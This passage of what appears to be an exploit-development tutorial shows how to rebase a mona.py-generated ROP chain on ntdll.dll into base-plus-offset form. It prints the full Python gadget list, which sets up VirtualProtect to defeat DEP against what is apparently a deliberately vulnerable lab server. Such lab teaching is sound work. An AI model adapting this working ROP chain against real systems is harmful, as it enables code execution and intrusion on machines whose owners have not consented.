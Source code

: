            <img src="Images/I18.png" width=600>


### Rewriting the ROP chain
Since we will be searching for the base of the `ntdll.dll` library, we need to rewrite the ROP chain so the addresses of instructions are in the format of **base + offset** because the offset of functions and their instructions in the loaded DLL do not change in relation to each other and the base address of the DLL. Here, *base* is a variable, and offset is a constant because, as mentioned earlier, this will not change unless the DLL is recompiled. The offset for each instruction can be calculated using the following formula: *offset = instruction address - base*.

> [!IMPORTANT]
> Don't update the Windows 10/11 virtual machine between generation and use otherwise the ROP chain generated might be different. [How to Turn Off Automatic Updates on Windows 10](https://www.cleverfiles.com/howto/disable-update-windows-10.html)

Finally, we get a ROP chain like this once we have rewritten this to use the `base + offset` format:
```
base = 0x77100000   # base of ntdll.dll on your victim machine

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        base + 0xe7a5a,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x62508128,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        base + 0x6c7f2,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x3e866,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebx:---]
        base + 0xe28aa,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x74a1a301,  # put delta into eax (-> put 0x00000201 into ebx)
        base + 0x42002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0xd3ea9,  # XCHG EAX,EBX # OR EAX,E58BFFFA # POP EBP # RETN 0x08 [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (compensate)
        #[---INFO:gadgets_to_set_edx:---]
        base + 0x70173,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (RETN offset compensation)
        0x41414141,  # Filler (RETN offset compensation)
        0x74a1a140,  # put delta into eax (-> put 0x00000040 into edx)
        base + 0x42002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x1b6e2,  # XCHG EAX,EDX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        base + 0xd74b6,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x125c9f,  # &Writable location [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        base + 0x7a182,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x36205,  # RETN (ROP NOP) [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        base + 0x77cbf,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
        base + 0x8b903,  # & call esp [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        base + 0x1118d4,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        base + 0x194f1,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)
```
